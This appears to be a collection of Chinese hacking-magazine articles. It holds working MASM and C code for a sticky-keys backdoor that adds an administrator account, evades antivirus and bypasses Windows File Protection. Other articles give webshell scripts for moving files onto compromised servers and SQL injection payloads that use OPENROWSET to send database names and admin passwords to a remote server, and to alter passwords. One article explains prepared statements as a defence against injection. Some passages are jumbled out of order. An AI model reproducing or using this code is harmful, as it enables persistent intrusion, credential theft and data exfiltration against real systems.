_DecodeString是函数名，uses ebx esi edi ebp是让编译器在编译时生成类似于push ebx、push esi的入栈指令（为了保护运行环境）。该函数有三个参数szAddr（DWORD，表示加密字符串起始地址）、szLen（DWORD，表示长度）、vValue（BYTE，表示异或加密时基数）。程序先用CLD将DF标志清0，使esi地址每次执行lodsb后递增；再以ecx保存长度并循环处理。注意`mov byte ptr ds:[esi-1],al`，因为lodsb后esi已自增1，写回需回退到esi-1。

## 二、字符串加密处理

出于免杀与数据保护的目的，对程序中用到的字符串全部进行xor异或加密。可通过打包的xor.exe对字符串处理，例如将密码abc123!@#abc进行异或。异或基数可在0-255之间，如执行`xor asmnop$ 9`。若异或后出现0字符或不可打印字符（小于0x20），程序会有提示；定义字符串时需注意避免不可打印字符。

有了加密数据，程序运行时需要解密，先定义一个解码字符串函数，代码如下：

```
_DecodeString proc uses ebx esi edi ebp,szAddr,szLen,uValu:BYTE
  cld
  mov esi,szAddr
  mov ecx,szLen
```

## 三、“设置”按钮的处理

“设置”键是粘滞键中一个比较特殊的按钮。登录Windows前（CTRL+ALT+DEL输入用户名和密码之前）它不可用，登录后才可用。因此编写资源时默认设为WS_DISABLED。显示对话框时需要判断当前是登录前还是登录后，可通过判断进程中是否存在外壳进程`explorer.exe`实现。

在显示对话框时，对话框过程函数会先处理WM_INITDIALOG消息，因此判断代码应写在该消息分支下。代码如下：

```
.elseif eax == WM_INITDIALOG
  ; 得到进程快照句柄
  invoke CreateToolhelp32Snapshot, TH32CS_SNAPPROCESS,0
    mov @hsnap,eax
;枚举进程
invoke Process32First,@hsnap,addr @pe32
.while TRUE
    invoke lstrcmpi,addr @pe32.szExeFile,offset szShell
    .if eax==0    ;发现explorer.exe Shell进程表明已登陆windows则设置键可用
        invoke GetDlgItem,hWnd,IDYES
        invoke EnableWindow,eax,TRUE
        jmp PROEND
    .endif
    invoke Process32Next,@hsnap,addr @pe32
    .break .if eax==FALSE
.endw
PROEND:
    invoke CloseHandle,@hsnap
```

首先通过CreateToolhelp32Snapshot()函数得到当前进程快照句柄，然后通过Process32First()和Process32Next()枚举系统进程，如果发现explorer.exe进程名，则表示已登陆进系统，即通过EnableWindow()将“设置”按钮设置为“可用”状态。

当用户单击“设置”按钮时，实际上是运行的“控制面板”中的“辅助功能选项”（如图3）所示，它对应于access.cpl，在“开始”——“运行”中输入access.cpl可以直接打开它，当“辅助功能选项”运行后，你会发现“任务管理器”中多出来一个rundll32.exe的进程，即access.cpl是由rundll32.exe执行的，具体的命令格式为：“rundll32.exe shell32.dll,Control_RunDLL access.cpl”。


当用户按下“设置”按钮时，会发送WM_COMMAND消息，该消息的低16位即为命令ID，只要判断为ID_YES（资源文件中定义为设置按钮）则运行access.cpl即可。代码如下：

```
asm
.if ax == IDYES        ;按设置键则启动设置目标
    invoke RtlZeroMemory,addr @sei,sizeof @sei
    mov @sei.cbSize,sizeof @sei
    push offset szOpen
    pop @sei.lpVerb
    invoke ExpandEnvironmentStrings,offset szDll,offset szBuffer,256
    push offset szBuffer
    pop @sei.lpFile
    push offset szSetParam
    pop @sei.lpParameters
    invoke ShellExecuteEx,addr @sei
.endif
```

运行access.cpl通过调用ShellExecuteEx()实现，该函数只有一个参数，它指向一个SHELLEXECUTEINFO的结构，该结构中的lpVerb成员指向要进行的操作，这里要“运行程序”所以是"open"，lpFile是要执行的程序，即C:\windows\system32\rundll32.dll；通过ExpandEnvironmentStrings()导出环境变量的方式得到其具体路径，lpParameters指向了程序运行的参数，即shell32.dll,Control_RunDLL access.cpl。

到这里，粘滞键后门算上有了“皮囊”，接下来就是注册热键，添加用户了，给其加上“魂魄”。

## 四、注册热键添加用户

首先在WM_INITDIALOG消息分支下注册一个热键ALT+F1，当在程序中使用该热键时，实际上发送的是WM_HOTKEY消息，所以在该消息分支下添加上增加管理员用户的代码。添加用户靠的是netapi32.dll中的NetUserAdd()和NetLocalGroupAddMembers()，在做测试的时候，发现有些杀软会定位这两个函数并提示为“sethc.backdoor”，为了防止被杀，这里使用动态加载的方法，即先用LoadLibrary()加载netapi32.dll，然后通过GetProcAddress()得到函数地址，这样在PE文件的导入表中就不会发现这两个函数了，同时GetProcAddress()的第二个参数是函数的名字，所以还需要将NetUserAdd和NetLocalGroupAddMembers这两个函数的函数名进行异或加密保存。下面是具体的代码：

```
asm
;添加管理员用户函数 AddUser
>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
AddUser      proc uses ebx esi edi ebp
    LOCAL @ui:USER_INFO_1
    LOCAL @lmi:LOCALGROUP_MEMBERS_INFO_3
    LOCAL @error
    LOCAL @hdll
;初始化栈空间
invoke RtlZeroMemory,addr @ui,sizeof @ui

@ui
;添加用户
invoke MultiByteToWideChar,CP_ACP,MB_PRECOMPOSED,offset szUser,lengthof szUser,offset unszUser,lengthof szUser * 2
push offset unszUser
pop @ui.usri1_name
invoke MultiByteToWideChar,CP_ACP,MB_PRECOMPOSED,offset szPass,lengthof szPass,offset unszPass,lengthof szPass * 2
push offset unszPass
pop @ui.usri1_password
mov @ui.usri1_priv,USER_PRIV_USER
mov @ui.usri1_flags,UF_SCRIPT

;解码DLL
invoke _DecodeString,offset szName,lengthof szName - 1,8
invoke LoadLibrary,offset szName
mov @hdll,eax
;得到NetUserAdd
invoke _DecodeString,offset szAddUser,lengthof szAddUser - 1,9
invoke GetProcAddress,@hdll,offset szAddUser
.if eax!=NULL
  lea ebx,@error
  push ebx
  lea ebx,@ui
  push ebx
  push 1
  push 0
  call eax ;调用NetUserAdd
.endif

;添加到administrators用户组
push offset unszUser
pop @lmi.lgrmi3_domainandname
invoke MultiByteToWideChar,CP_ACP,MB_PRECOMPOSED,offset szGroup,lengthof szGroup,offset unszGroup,lengthof szGroup * 2
invoke _DecodeString,offset szAddGroup,lengthof szAddGroup - 1,9
invoke GetProcAddress,@hdll,offset szAddGroup
.if eax!=NULL
  push 1
  lea ebx,@lmi
  push ebx
  push 3
  push offset unszGroup
  push 0
  call eax
  .if eax==NERR_Success
    invoke MessageBox,NULL,offset szOk + 3,offset szOk + 3,MB_OK
  .elseif
    invoke MessageBox,NULL,offset szOk,offset szOk,MB_OK
  .endif
.endif
ret
_AddUser endp
```

到这里“轻型”粘滞键后门就算打造完成了，编译运行后与 Win2003 下的粘滞键对比（如图4）所示。放到肉鸡上 ALT+F1 测试是否能添加用户（如图5）所示。接下来就是编写一个替换程序，用于替换系统中正常的粘滞键程序。


图4


图5

## 五、编写替换程序

编程中突破WFP保护机制的方法比较多，这里使用了sfc_os.dll中5号函数来关闭WFP文件保护机制。具体的代码如下，下面程序中使用的字符串与上面打造后门程序时使用的方法相同——与一个基数进行异或加密，加密的字符串主要是sethc.exe和sfc_os.dll。本例中与基数123进行异或。sfc_os.dll中的5号函数的原型如下：

```c
//定义一个pwfp的函数指针指向5号函数
typedef DWORD (__stdcall *pwfp)(
    DWORD param1,
    PWCHAR param2,
    DWORD param3
);

//具体实现代码：

pwfp wfp = NULL;
CHAR szEnd[] = "\x27\x81\xef\x13\x18\x55\x1e\x31e"; //sethc.exe xor 123后的加密字符
CHAR szDll[] = "\x81\x1d\x18\x24\x14\x8\x55\xf\x17\x17"; //sfc_os.dll xor 123后的加密字符

//解码异或后的字符串
VOID DecodeChar(PCHAR str,INT value)
{
    for (size_t inx=0; inx!=strlen(str); ++inx)
    {
        str[inx] ^= value;
    }
}

int main(int argc,char *argv[])
{
    CHAR szSethc[MAX_PATH];   //保存sethc.exe的路径
    WCHAR wzSethc[MAX_PATH];  //保存sethc.exe路径的UNICODE
    CHAR szSelf[MAX_PATH];    //保存自身路径

    memset(szSelf,0,MAX_PATH);
    memset(szSethc,0,MAX_PATH);
    wmemset(wzSethc,0,MAX_PATH);

    //得到sethc.exe的路径
    GetSystemDirectory(szSethc,MAX_PATH);
    DecodeChar(szEnd,123);
    strncat(szSethc,szEnd,strlen(szEnd));

    //将sethc.exe的路径转换为UNICODE保存
    MultiByteToWideChar(CP_ACP,0,szSethc,strlen(szSethc)+1,wzSethc,MAX_PATH);

    //加载sfc_os.dll并得到5号函数的地址以关闭sethc.exe的文件保护
    DecodeChar(szDll,123);
    HMODULE hdll = LoadLibrary(szDll);
    memset(szDll,0,strlen(szDll));
    wfp = (pwfp)GetProcAddress(hdll,(LPCSTR)5);
    if (wfp!=NULL && hdll!=NULL)
    {
        wfp(0,wzSethc,-1);
    }

    //得到当前目录下的sethc.exe的具体路径
    GetCurrentDirectory(MAX_PATH,szSelf);
    strncat(szSelf,szEnd,strlen(szEnd));

    //将当前目录下的sethc.exe替换系统目录下的sethc.exe
    if (!CopyFile(szSelf,szSethc,FALSE))
    {
        HLOCAL hlocal = NULL;
        FormatMessage(FORMAT_MESSAGE_FROM_SYSTEM | FORMAT_MESSAGE_ALLOCATE_BUFFER | FORMAT_MESSAGE_IGNORE_INSERTS,
                      NULL,GetLastError(),MAKELANGID(LANG_NEUTRAL,SUBLANG_NEUTRAL),(LPSTR)&hlocal,0,NULL);
        MessageBox(NULL,(LPSTR)hlocal,TEXT("Error"),MB_OK);
    }
    else
    {
        MessageBox(NULL,TEXT("Successfully !"),TEXT("Info"),MB_OK);
    }

    return 0;
}
```

程序很简单，通过LoadLibrary()动态加载sfc_os.dll，然后得到5号函数的地址，通过它将系统目录中的sethc.exe的文件保护关闭，接下来通过GetCurrentDirectory()得到当前程序的目录，最后将当前目录中的sethc.exe复制到系统目录，需要注意使用该程序时，保证粘滞键后门在同一目录下，且名字为sethc.exe。

到这里，某菜的粘滞键后门终于完工了。好了，文章就到这里。

> （文章中所涉及的相关工具已收录在本期光盘中）

## 浅谈PHP防注入

PHPing 勿扰''

某年某月某日某时某分某秒，某小菜在阅读某PHP程序代码时，发现某处将输入“直接”带入查询语句，当他兴冲冲地抄起阿D时，却没有注入点（magic_quotes_gpc为off）。当他仔细查看代码时，也没发现过滤语句，这是怎么回事呢？实际上，这个程序用了预备查询技术。预备查询技术为何方神圣，且听我慢慢道来。

预备查询技术实际上是将不完整的SQL语句（如：select * from xxx where id=? “?”是占位符）预先编译好，驻留于内存中，使用时不断将数据代入占位符并执行的一种技术。使用这项技术本意是想快速运行多个格式相同的SQL语句，但由于语句已经编译好，所以代入数据时就不存在数据与语句相混淆的情况，自然也就可以起到防注入的作用。预备查询技术是新版MySQLi库的亮点之一。在介绍预备查询技术之前，先简单说说MySQLi。

## 一、运行环境

- 1. MySQLi库可以链接4.1（含）以上版本的MySQL服务器。
- 2. MySQLi库为PHP5.0（含）以上版本自带。

## 二、安装方式

- 1. Windows编辑php.ini，找到：extension=php_mysqli.dll 这一行，去掉分号；保存，重启apache。
- 2.（类）Unix 如：（包括但不限于）mac os x，linux，unix等
   重新编译php，加上 --with-mysqli=/usr/local/mysql/bin/mysql_config

## 三、改进

- 1. mysqli可以让程序员以面向对象的方式编写代码。
- 2. mysqli库去掉了一些无用的函数，如：不支持持久连接等。

可以看出，mysqli作出了重大的改进，方便了程序员。下面开始介绍预备查询技术。预备查询技术需要七个环节，涉及六个函数，我们一一为大家讲解。首先先链接MySQL服务器，函数原型：

```
mysqli::__construct() ([ string $host = ini_get("mysqli.default_host") [, string $username = ini_get("mysqli.default_user") [, string $passwd = ini_get("mysqli.default_pw") [, string $dbname = "" [, int $port = ini_get("mysqli.default_port") [, string $socket = ini_get("mysqli.default_socket") ]]]]] )
```

```php
<?php
$mysql=new mysqli('localhost','root','password','database',3306);
```

图1
然后进行预备查询

### 1. 预备

函数原型：mysqli_stmt mysqli::prepare ( string $query )

注意：$query中要含有占位符，占位符可以占数字、文本等类型的数据，但是不能占表名、列名、数据库名等。其中，当占位符占文本时，不要用引号（例如：应该为where username=?，而不是where username='?'）。根据刚才的介绍，此时就已经编译语句了，自然这里也会有语法检查。

```
$stmt=$mysql->prepare('select * from abc where id=?');
```

图2

### 2. 绑定变量

函数原型： bool mysqli_stmt::bind_param ( string $types , mixed &$var1 [, mixed &$... ] )

注意：参数一为文本型，其中定义了各个占位符的类型，i是整型，d是浮点型，s是字符串型，b是blob（例如，预备查询语句中有四个占位符，类型分别是字符串型、字符串型、字符串型、整型，则该参数为："sssi"）。剩下的参数按顺序依次对应预备查询语句中的占位符，变量不需要提前定义。

```
$stmt->bind_param('i',$id);
```

图3

### 3. 赋值

为第二步中的变量赋值

```
$id=1;
```

图4

### 4. 执行

函数原型： bool mysqli_stmt::execute ( void )

### 5. 绑定结果

函数原型：`bool mysqli_stmt::bind_result ( mixed &$var1 [, mixed &$... ] )`

注意：参数要一一与返回的字段对应，对于无返回数据的查询，如 delete、insert 等，无需此步和下一步。

```
php
$stmt->bind_result($a,$b,$c);
```

### 6. 处理数据

函数原型：`bool mysqli_stmt::fetch ( void )`

注意：此函数无需参数，其功能是将指针外的数据赋给上一步中绑定的变量，并将指针下移一行；如果指针处没有数据可供返回，函数返回 false。由于数据可能有很多条，就得需要用循环处理。

```
php
while ($stmt->fetch()){
    //处理数据
}
```

### 7. 关闭查询

函数原型：`bool mysqli_stmt::close ( void )`

```
php
$stmt->close();
```

还需要关注的一点是，如果想执行多条语句，可以重复 3-6 步，即重新赋值，再 execute 一遍。

最后断开链接：函数原型：`bool mysqli::close ( void )`

```
php
$mysql->close();
?>
```

以上就是预备查询的基本理论，理论还得靠实践来检验，下面对两个程序进行测试。首先介绍测试环境：

- B：Safari 5.0(6533.16) on MAC OS X 10.6.4
- S：Apache/2.2.15 PHP/5.3.2 mysql:5.5.1-m2-osx10.6-x86_64
- MAC OS X 10.6.4

其次，安装测试程序。这个程序是我自己写的，意在说明意思，做得比较简陋，凑合看下。安装方法见光盘。下面进行测试，先测试第一套新闻系统。从源代码看出，程序将变量直接带入 SQL 语句，造成注入，提交：`http://localhost/news1/news.php?id=1 and 1=2 union select 1,2,3`，返回如下图。


提交：`http://localhost/news1/news.php?id=1 and 1=2 union select 1,user,pass from admin`，返回如下图。


用得到的用户名与密码登录后台（`http://localhost/news1/admin`）成功。

然后测试第二套系统。从源代码看出，程序使用了预备查询技术，而且没有过滤，提交注入语句的非数字部分均被忽略（是因为绑定变量是类型定义为数字的缘故）所以无法注入。通过测试可以看出，预备查询可以防范注入攻击。这样的技术应当引起程序员的重视！

## 后记：

+ 1. 第一套新闻系统后台用 `"or1="` 也可以登录。
2. 关于 MySqli 库的详细信息，请参阅：`http://docs.php.net/manual/zh/book.mysqli.php`。

> 【本文所涉及的程序已收录在光盘中】

# 底商360与QQ的战争
## ——第三方软件给双面财迷盖行坟

最近360和企鹅之间的纠纷比较热门！对于QQ收集用户隐私信息并上传的问题，双方各执一词。两大网络领军型的人物之间的争斗，让网友们分不清谁是谁非，难道我们只能相信其中一个吗？不！我们需要有自己选择的权利。

# 安全第一

离开战场，使用第三方的软件，才能得到最客观的事实。还好有网友为我们开发了，一款名为“QQ侦探”的安全防护软件，它可以轻松的显示出QQ对你电脑隐私做出的窥探！并且进行拦截。

我们首先可以从“QQ侦探”的官方主页（http://code.google.com/p/qqdetective/）下载最新版本的“QQ侦探”来进行使用。解压后双击运行文件夹中的文件QQDetective.exe，如果用户使用的是Windows Vista和Windows 7的系统，需要通过右键菜单中的“以管理员身份运行”来启动。由于“QQ侦探”采用内核驱动的方式拦截，因此在加载内核的时候会被“金山卫士”、“360安全卫士”所拦截，这时我们只需要点击弹出窗口中的“同意”命令即可。


另外也是由于软件采用驱动进行拦截，所以以后在不启动“QQ侦探”程序的时候，QQ的恶意行为也会受到相应的拦截操作。


由于“QQ侦探”在安装的时候，已经进行了初始化的配置操作。但是用户觉得有必要的话，还可以进入到“QQ侦探”的主界面，根据自己的需要进行配置操作。比如通过“当前系统保护级别”中的滑杆，将其拖动到合适自己的保护级别，或者直接在“基本拦截”和“高级拦截”中进行选择（如图1）。

设置完成之后点击“确定”按钮关闭配置程序即可，现在我们的QQ软件就处于这个级别的保护之下了。当我们需要了解QQ有那些恶意动作的时候，用户只需要运行文件夹中的QDLog.exe程序文件，通过弹出的“QQ侦探事件簿”窗口就可以看到QQ的恶意动作，这些恶意动作包括文件扫描、注册表监察、内存访问等，而这些动作已经被“QQ侦探”统统拦截（如图2）。

由于“QQ侦探”采用的是行为判断的方式进行拦截，所以有的时候难免会出现错拦截的时候，比如我就感觉到该软件会影响到输入法在QQ里面的正常运行。如果大家需要卸载“QQ侦探”的话，还是以管理员权限运行QQDetective.exe文件。在配置窗口里面切换到“系统管理”选项卡，单击“卸载”按钮后程序就可以卸载驱动保护模块（如图3）。


不过这时一定要关闭“QQ侦探事件簿”程序，否则会出现卸载不成功的情况。当然有的时候通过这种方法，在进行卸载的时候会出现系统蓝屏的情况，这个时候就需要借助于一些专用工具来删除。比如运行安全工具XueTr，在窗口里面选择“内核模块”标签。接着在列表里面找到QQDetective.sys这项，然后单击右键选择菜单中的“删除驱动（文件和注册表）”命令，最后重新启动系统就可以完成删除操作（如图4）。


从这次偶然也是必然的网络大战中，我们可以看出，网络中没有什么是绝对安全的！只有多去学习，多去了解黑客知识。才能在纷乱的网络中，给自己营造出一片安静的天空。

作者讨论群地址：www.hackx.cc/forum.php?mod=group&fid=90

（文章中所涉及到的QQDetective已收录在光盘中）

# 跟我学Webshell
下文件批量上传下载

相信很多小菜在百般曲折的获得了目标网站的WEBSHELL后，都离不开与服务器之间的文件交互，比如上传黑页、大批量文件，下载数据库、网站源代码等。很多情况下，由于服务器的默认配置或管理员对服务器的安全加固，我们在WEBSHELL下进行文件的上传下载都不是很顺利，本文就将把自己从网上收集、整理的几种常用方法进行了简单的罗列与总结。


图2

## 一、批量上传

### 1、上传打包文件

#### （1）利用winRAR

当目标主机安装了winRAR，并且安装目录有可执行权限时，我们利用它就可以轻松的将大批量文件上传。首先把需要上传的多个文件使用winRAR打包，然后利用webshell的文件上传功能进行上传，成功后再通过调用wscript.shell组件执行命令，利用命令行下的rar.exe进行解压，解压的具体命令为“C:\Program Files\winRar\rar.exe” 文件所在路径 解包路径。

由于IIS在默认状态下设定了上传的文件大小最大只能为200k，因此我们在压缩文件时应尽量增大压缩比。当然也可以进行两次压缩，就是压缩生成rar文件后，再对该rar文件进行压缩。而在webshell中调用rar.exe解压的时候，先将1.rar解压，如图1，这样文件2.rar被释放，然后我们再解压2.rar就行了，如图2。


图1


图3

在目标服务器的网站目录下建立一个文件getRemoteFile.asp，文件的具体内容如下：

```
Set xPost = CreateObject("Microsoft.XMLHTTP")
xPost.Open "GET", "修改为你保存您自己空间该文件URL地址", False
xPost.Send()
Set sGet = CreateObject("ADODB.Stream")
sGet.Mode = 3
sGet.Type = 1
sGet.Open()
sGet.Write(xPost.responseBody)
sGet.SaveToFile Server.MapPath("fjhh.rar"), 2
Set sGet = nothing
set sPOST = nothing
response.Write("下载文件成功！<br>")
```

如果网站服务器支持PHP，那么在PHP中该方法也同样适用（目标环境必须要为windows系统）。在Phpspy中执行的情况如图3所示，这里需要注意，命令执行方式要选择wscript。由于PHP在默认配置下设定上传的最大文件为2M，因此我们在目标服务器支持的情况下，应该优先考虑，但是倘若我们想要上传的文件大小有好几M甚至十几M时又该如何处理呢？解决的方法在X档案以前的文章中也有过介绍的，我们可以先把文件通过FTP上传到自己的空间中，再利用XMLHTTP组件将其下载到目标服务器中。

再次浏览器中直接访问这个getRemoteFile.asp文件，稍等片刻，文件就会下载成功了。如果上传了一句话木马，利用lake2的一句话木马连接客户端也可以一步到位，我们在“文件来源URL”处填写远程文件的URL地址，如图4，填写好后点击“发送”按钮，下载成功后如图5所示。如果网站服务器是采用的LAMP环境，即Linux+Apache+Mysql+PHP，那我们可以先上传经过压缩打包的gz文件，然后再利用“Tar zxvf fjhh.tar.gz”这个命令进行解压。


图4


图5

#### （2）上传海阳木马打包文件

这个方法与上面利用rar类似，有时候目标服务器没有安装winRAR，或者是没有权限执行命令，这时我们就可以先把需要上传的多个文件使用海阳一句话木马进行打包，再把打包生成的HYtop.mdb上传上去，再使用海阳木马的解包功能将其解开就行了，如图6。


图6

### 2、执行命令，ftp下载文件

就是把需要上传的文件先通过ftp上传到自己的FTP空间中，在目标服务器上执行ftp命令，登录到我们的FTP空间来进行目标文件的下载。我们首先建立一个admintest.bat文件，其内容如下：

```
open 172.30.227.161
421            //ftp用户名
421            //ftp密码
binary
lcd D:\Web\ftp    //切换工作目录，下载的文件将全部保存在此目录中
prompt off
mget *          //下载所有文件
bye
```

把admintest.bat文件上传到目标网站的目录下，然后执行命令“ftp -s:D:\Web\ftp\admintest.bat”，效果如图7所示。


图7

### 3、利用XMLHTTP批量下载文件

先把需要上传的文件上传到WEB空间中，再提取出所有的文件名，整理成类似“082504798.html,082655332.html,082758932.html,082831379.html,082926426.html,083215340.html,083247346.html,083317949.html,0833397.html,083419868.html,083500457.html,083641370.html”的形式，这里我提供一段asp代码：

```
<%
Set fso = Server.CreateObject("Scripting.FileSystemObject")
Set fileobj = fso.GetFolder(server.mappath("/"))
Set fsofolders = fileobj.SubFolders
Set fsofile = fileobj.Files
For Each file in fsofile
    response.Write file.name&","
Next
%>
```

整理好需要上传的文件名后，在目标网站下建立一个 getfile.asp 文件（限于文章篇幅有限，这里就不贴出全部的代码了，文件已收录在光盘中），下面是需要修改的两个参数，其中 Files 参数所填写的内容就是上文脚本所显示的文件名集合。

```
Files="082504798.html,082655332.html,082758932.html"  '此处为待上传的文件名
url="http://127.0.0.1:801/test/html/"            '此处为待上传文件所在空间的具体URL地址

tmpFiles = Split(Files&";", ";")
for tmpi=0 to ubound(tmpFiles)-1
    tmpUrl=url&tmpFiles(tmpi)
    call returnGet(url,tmpFiles(tmpi))
    tmpUrl=""
next
response.Write "<br><br><br><font color=#FF3300 size=+3>总计"&ubound(tmpFiles)&"个文件</font>"
```

这个文件会先把整理好的文件名使用“,”分割成数组，再依次获取内容，并将其保存在目标服务器上，执行后的效果如图8所示。


## 二、打包下载

+ 1、利用海阳木马

这种方法是最常用也是最方便的，只是在打包相当大数量的文件时会出现脚本超时或打包不完整等问题。

+ 2、利用winRar

在打包很大数量的文件时，这种方法尤其有效，具体命令如下：
“C:\Program Files\WinRAR\rar.exe” a 路径\downall.rar 需要打包的文件夹
ASP与PHP下的利用方法很类似，在 Phpspy 中执行该命令的效果如图9所示。


+ 3、利用tar命令

当服务器环境为 Linux 时，我们可以使用 tar 命令，比如只打包不压缩，命令就为“tar -cvf /www/client/ylb/pic/test.tar /www/client/web”。打包同时压缩，生成 gz 文件，由于要压缩，如果文件过多的话会占用过多的服务器资源，命令为“tar -cvzf /www/client/ylb/pic/test.tar.gz /www/client/web”。

+ 4、利用php打包

Phpspy中的文件打包功能非常强大，比如全选后点击“Packing download selected”，选中的文件就将被压缩打包了，如图10。由于Phpspy只能对当前目录下的文件进行打包，因此当我们需要全盘打包时就显得不太方便了，我在网上收集到了 faisun 写的 php 打包脚本 faisun_zip-GB2312.php，输入密码后如图11所示，选择需要打包的文件夹与文件，然后点击“开始压缩”就行了，如图12。


在webshell下对目标服务器进行文件上传与下载的方法就为大家介绍到这里。小菜们要多多总结，归纳出适合自己的方法来。


图11

图12

> （文章中涉及到的 faisun_zip-GB2312.php、getFile.asp，已经收录在了光盘中）

# OPENROWSET使用小记

菲＆王兴东

最近zake哥让我使用OPENROWSET分析一个网站的数据库结构，以前我没有怎么用过OPENROWSET，于是就好好的研究了一下。

## 一、SQL注入原理

我自己使用.net编写了一个存在搜索漏洞的脚本，关于注入原理我简单的说明一下，注入的形成是由于程序员在编写代码的时候对获取的值过滤不严，直接带入数据库查询而造成的，这样我们就可以精心构造SQL语句来达到恶意攻击的目的，这也就是常说的注入攻击。如果大家还有什么不明白的地方，可以去翻阅一下第4期杂志中我写的“搜索型注入原理详细解析”一文，这里就不再唠嗑了。这个存在漏洞的ASP.NET的代码如下：

```
protected void Button1_Click(object sender, EventArgs e)
{
    string connuser = @"Data Source=PC-200908050033;SQL EXPRESS;Initial Catalog=hacker;Integrated Security=True";
    string sql = string.Format("SELECT * from sqltest where names like '%{0}%'", TextBox1.Text); // 这里注入形成
    ...
}
```

```
// 主要原因：TextBox1.Text没有经过任何处理就带入到了SQL语句
SqlConnection conn = new SqlConnection(connuser);
conn.Open();
SqlCommand comm = new SqlCommand(sql, conn);
SqlDataReader reder = comm.ExecuteReader();
while (reder.Read())
{
    Label2.Text += reder[0].ToString() + " "
        + reder[1].ToString() + " "
        + reder[2].ToString() + " "
        + reder[3].ToString() + "<br>";
}
conn.Close();
```

关于数据库的建库建表代码我就不贴出来了，数据库已经收录在光盘中提供给了大家，如图1所示，Admin表保存着管理员的账户和密码信息，sqltest表保存着用户信息。

## 图1

于如何判断是不是存在注入漏洞，我们可以使用“'or'='-'”在搜索框中输入“'or'='-'”，返回了所有的数据，由此可以确定存在注入漏洞，如图2。

我们来分析一下这时候的SQL语句会是什么样子，这时候的SQL语句为“SELECT * from sqltest where names like '%or'='-'%'”，“'='”为true，而“%”代表任何字符，这样就会查询出所有的数据了。接下来我们就进行测试，比如在得到一个注入点的时候，首先会猜测表名，然后再猜测列名，如果一个一个的去猜，存在着很大的运气成分，可能这时候我们还会选择使用union select来爆数据，不过今天我要介绍的是OPENROWSET()，所以就暂不讨论union select了，来看我是如何使用OPENROWSET()得到数据库名、表名、字段名以及字段值的。

首先我们要得到当前的数据库名，在搜索框中输入：“'or '='';insert into OPENROWSET('SQLOLEDB','server=61.xx.135.xxx,1433;uid=xx;pwd=xxxx!','select admin from fei') select db_name()--”，点击搜索后，查询出了所有数据，现在我们来到61.xx.135.xxx这个SQL服务器看一下，看有没有把数据库名插入到fei表中的admin字段中，如图3所示，成功的获取了数据库名。

## 二、OPENROWSET()的利用

我们使用OPENROWSET的目的，主要是把在注入点数据库中查询出来的信息写到远程的SQL服务器上以方便我们查看，适用于不显错的站点以及猜不出表名和列名的时候使用。


图2

```
insert into OPENROWSET('SQLOLEDB','server=sql服务器ip;uid=帐户;pwd=密码','select admin from fei') 要执行的SQL语句
```


图3

接下来要得到Feitest这个库中的所有表名，在搜索框中输入“'or '='';insert into OPENROWSET('SQLOLEDB','server=61.55.135.37,1433;uid=db;pwd=123456!','select admin from fei') select table_name from information_schema.tables--”，点击搜索后返回了所有的数据，如图4所示，表名信息被成功的写到远程服务器上了。

再接下来就是要得到Admin表中的所有字段名称，在搜索框中输入“'or '='';insert into OPENROWSET('SQLOLEDB','server=61.55.135.37,1433;uid=db;pwd=123456!','select admin from fei') select column_name from information_schema.columns where table_name='admin'--”，点击搜索后返回了所有的数据，如图5所示，字段名信息被成功的写到远程服务器上的fei表的admin字段里了。

为了方便大家观看字段的值，我把远程服务器上fei表中的数据清空，我们再来得到字段值，在搜索框中输入“'or '='';insert into OPENROWSET('SQLOLEDB','server=61.55.135.37,1433;uid=db;pwd=123456!','select admin from fei') ...”


我们来执行一下就知道为什么不这么做了，把语句更改成“`or "=";insert into OPENROWSET('SQLOLEDB','server=61.55.135.37,1433;uid=db;pwd=123456!';select admin from fei') select adminName,adminPass from Feitest.dbo.admin--`”，执行结果如图7所示，发生了错误。为什么会报错呢？这是因为远程服务器的 `fei` 表中只有 `admin` 这一个字段，我们却要把 `adminName` 和 `adminPass` 两个字段的值写到 `fei` 表中，这样肯定要出错的，必须保证字段和服务器上的字段数一样才可以。


既然表名和字段名都知道了，那接下来我们就得到 `adminPass` 字段的值，在搜索框中输入“`or "=";insert into OPENROWSET('SQLOLEDB','server=61.55.135.37,1433;uid=db;pwd=123456!';select admin from fei') select adminPass from Feitest.dbo.admin--`”，点击搜索后返回所有了数据，执行成功了，如图8所示，`adminPass` 字段的值被成功写到了远程服务器上，就这样拿到了所有账号和密码。


`select adminName from Feitest.dbo.admin--`，点击搜索后返回了所有的数据，执行成功了，如图6所示，字段的值被成功写到了远程服务器上的 `fei` 表的 `admin` 字段里。可能有读者要问，为什么不把 `adminPass` 字段里的值也一起得到呢？

当然我们也可以使用 `update` 来更改账号和密码，比如我要更改 `Gte` 这个账户的密码，从上图中可以看到 `Get` 的密码为 `789`，我们来把密码改成 `fei`，只需要在搜索框中输入“`or "=";update Feitest.dbo.admin set adminpass='fei' where adminName='Gte'--`”，执行成功了，我们在本地查看一下密码，是不是发现密码已经更改为 `fei` 了，如图9。


在查不到表名和字段名的时候，使用 `OPENROWSET()` 是个不错的选择，如果可以的话，大家也可以来个跨库查询。如果本文有什么不对的地方还请读者朋友们指出来，大家要善于思考，可以试着来自己构造注入语句。

（文章中涉及到的相关脚本文件，已经收录在了光盘中）

# 大学教育站点的威胁

> “星星之火可以燎原…… 对当前大学教育站点所存在的一些常见安全问题做一个简单的分析。”

现在的很多小黑对于大学教育站点特别热衷，主观原因可能是因为众小黑对自己大学的教育不满或者是出于对大学生活中一种寂寞的逃逸方式，客观方面的原因可能是因为大学在网站上的资金投入太少，往往会让一些学生来帮忙完成这种网站的开发和搭建。下面我就对当前大学教育站点所存在的一些常见漏洞以及渗透攻击方式进行一个简单的分析。我们在百度上搜索“大学网站漏洞”，发现搜索到的相关网页约1,160,000篇，足见这种危害之大，如图1。

对于使用了ewebeditor的站点，我们通常可以采取普遍使用的两个办法：一是探测默认的后台地址，比如ewebeditor/admin_login.asp等，另一个就是探测ewebeditor的数据库。相信在找到了ewebeditor后，如何得到webshell并不是什么难题，那么作为一个站点的管理人员，该如何弥补这些软肋呢？

其实方法也非常简单，可以使用admin登录到后台，修改密码，然后使用ftp登录网站空间，删除admin_login.asp文件，如果不需要上传的话，最好连upload.asp也一起删除掉（通常是需要的），而作为入侵者，也可以在webshell中来执行这些操作，以独享你的肉鸡。


```
vb
Do While InStr(sAllowExt,"ASP") or InStr(sAllowExt,"CER") or InStr(sAllowExt,"ASA") or InStr(sAllowExt,"CDX") or InStr(sAllowExt,"HTR")
